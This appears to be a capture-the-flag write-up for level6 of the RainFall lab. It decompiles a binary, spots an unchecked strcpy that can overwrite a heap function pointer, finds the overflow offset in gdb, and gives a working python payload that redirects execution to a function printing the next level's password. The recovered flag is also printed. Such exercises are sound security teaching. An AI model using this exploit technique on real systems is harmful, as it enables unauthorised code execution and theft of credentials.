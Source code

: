 ## Basic analysis
Let's see what **level6** binary does:
~~~shell
./level6
Segmentation fault (core dumped)
./level6 42
Nope
~~~
Okay, no more stdin, here we will have to enter some passphrase for the binary to give up the flag for next level. Let's take a look inside with Ghidra:
~~~C
void main(undefined4 param_1,int param_2)
{
  char *__dest;
  code **ppcVar1;
  
  __dest = (char *)malloc(0x40);
  ppcVar1 = (code **)malloc(4);
  *ppcVar1 = m;
  strcpy(__dest,*(char **)(param_2 + 4));
  (**ppcVar1)();
  return;
}

void m(void *param_1,int param_2,char *param_3,int param_4,int param_5)

{
  puts("Nope");
  return;
}
~~~
Well, that is not nice at all. From the basic flow, we can read that we can enter whatever we want and we will get **Nope** in return.
There is, however also function **n()**:
~~~C
void n(void)
{
  system("/bin/cat /home/user/level7/.pass");
  return;
}
~~~
That's better, that is what we want to see! How do we get to this function? Well, there is a **strcpy()**, which is, according to the **man** pages, vulnerable to buffer overflow:
*"If the destination string of a strcpy() is not large enough, then anything might happen. Overflowing fixed-length string buffers is a favorite cracker technique for taking complete control of the machine."*

So, this is our old friend...

## Buffer overflow payload

We will find the offset using the **Wiremask** tool:
~~~shell
level6@RainFall:~$ gdb ./level6
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae
Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
(gdb) 
~~~
Found offset of **72**.

Now the payload - must be sent as a argument, because the program segfaults without it:
~~~shell
level6@RainFall:~$ ./level6 $(python -c 'print "A" * 72 + "\x08\x04\x84\x54\"[::-1]')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
~~~


